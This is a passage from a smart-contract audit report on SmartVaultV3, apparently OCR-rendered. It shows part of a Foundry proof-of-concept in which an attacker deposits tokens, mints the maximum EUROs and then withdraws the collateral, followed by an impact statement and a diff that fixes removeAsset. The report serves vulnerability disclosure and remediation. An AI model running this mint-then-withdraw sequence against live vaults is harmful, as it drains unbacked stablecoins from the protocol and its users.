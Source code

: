 ```ts
        
    }
    function frontrun(SmartVaultV3 v) internal returns(uint euroMinted){
        // send token to the vault : 
        
        vm.startPrank(bob);
        token.transfer(address(v),token.balanceOf(bob));
        // mint euro with this token : 
         euroMinted = v.status().maxMintable  *manager.HUNDRED_PC()  /manager.collateralRate();
        v.mint(bob,euroMinted);
        vm.stopPrank();

    }
    function backrun(SmartVaultV3 v) internal {
        // remove the asset : 
        vm.startPrank(bob);
        uint bal = token.balanceOf(address(v));
        v.removeAsset(address(token),bal,bob);
    }
}
```
## Impact

- The attacker obtaining an unwarranted amount of `EUROs` without collateral that can badly harm the protocol

## Tools Used
vs code 
manual review 
## Recommendations
- Implement a preventative measure to restrict user asset withdrawals if their vault becomes undercollateralized. 

```Diff
 function removeAsset(address _tokenAddr, uint256 _amount, address _to) external onlyOwner {
        ITokenManager.Token memory token = getTokenManager().getTokenIfExists(_tokenAddr);
        if (token.addr == _tokenAddr) require(canRemoveCollateral(token, _amount), UNDER_COLL);
        IERC20(_tokenAddr).safeTransfer(_to, _amount);
++        if(undercollateralised()) revert(UNDER_COLL);
        emit AssetRemoved(_tokenAddr, _amount, _to);
    }
```
## <a id='M-02'></a>M-02. SmartVaultV3 Potential Liquidation Blockage Due to Blacklisting             

### Relevant GitHub Links
	
https://github.com/Cyfrin/2023-12-the-standard/blob/main/contracts/SmartVaultV3.sol#L121
